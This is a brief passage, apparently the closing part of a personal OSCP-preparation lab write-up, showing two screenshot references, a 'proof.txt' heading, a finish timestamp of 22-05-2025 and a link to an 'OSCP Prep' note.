

EZ PZ!

### proof.txt



---

**Finished 16:41 22-05-2025**

[^Links]: [[OSCP Prep]]

